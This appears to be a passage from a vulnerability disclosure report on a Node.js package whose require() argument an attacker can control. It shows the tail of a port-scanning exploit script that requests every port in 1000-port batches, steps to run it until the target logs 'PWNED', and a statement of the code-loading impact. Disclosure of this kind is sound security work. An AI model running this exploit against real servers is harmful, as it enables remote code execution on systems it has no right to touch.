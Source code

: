 ```
      let last = start + 1000
      while (!stopEnum) {
        if ( last > finish ) {
          last = finish
          stopEnum = true
        }
        const promises = []
        for (let i = first; i <= last; i++) {
          // sending request to every port from range
          promises.push(sendRequestToPort(i))
        }
        await Promise.all(promises)
        first = last + 1
        last = first + 1000
      }
    })()
```
- install request library (for exploit.js to work)
   ` npm i request`

*  run index.js
   ` node index.js`

* run exploit.js in another terminal and wait until it finishes (it may take a few minutes)
    `node exploit.js`

index.js should log 'PWNED' to terminal

## Patch

## Supporting Material/References:

- OS: Linux Mint current
- Node.js: 10.16.0
- NPM: 6.9.0

# Wrap up

- I contacted the maintainer to let them know: Y
- I opened an issue in the related repository: N

## Impact

An attacker is able to control the x in require(x) and cause code to load that was not intended to run on the server.

## Attachments
- script-manager_scheme.png
